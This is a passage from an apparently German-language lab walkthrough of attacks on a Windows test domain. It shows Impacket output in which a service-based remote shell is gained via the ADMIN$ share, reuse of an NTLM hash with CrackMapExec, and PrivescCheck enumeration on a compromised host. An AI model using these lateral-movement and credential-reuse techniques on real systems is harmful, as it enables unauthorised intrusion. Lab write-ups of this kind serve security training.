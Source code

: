 \begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

\subsubsection{CrackMapExec}
Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens CrackMapExec leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.

\subsection{Step 6: Situational Awareness on FS1}
Wir haben nun Zugriff auf den Host FS1.winattacklab.local mit administrativen Rechten erhalten. Das bedeutet, dass wir nicht mehr nach lokalen Methoden zur Privilegienerweiterung suchen müssen. Stattdessen ist das Ziel, andere wertvolle Informationen zu finden, die uns helfen könnten, andere Benutzer oder Hosts zu kompromittieren.

\subsubsection{Acquiring the Necessary Tools}

\paragraph{PrivescCheck}\mbox{} \\
Dieses Skript zielt darauf ab, häufige Windows-Konfigurationsprobleme aufzuzählen, die zur lokalen Privilegienerweiterung ausgenutzt werden können. Außerdem sammelt es verschiedene Informationen, die für eine Ausnutzung und/oder Nachnutzung nützlich sein könnten.
Dieses Tool soll Sicherheitsberatern dabei helfen, potenzielle Schwachstellen auf Windows-Rechnern während Penetrationstests und Workstation/VDI-Audits zu identifizieren. Es ist nicht für den Einsatz bei Red-Team-Einsätzen gedacht, kann aber dennoch viele nützliche Informationen liefern.

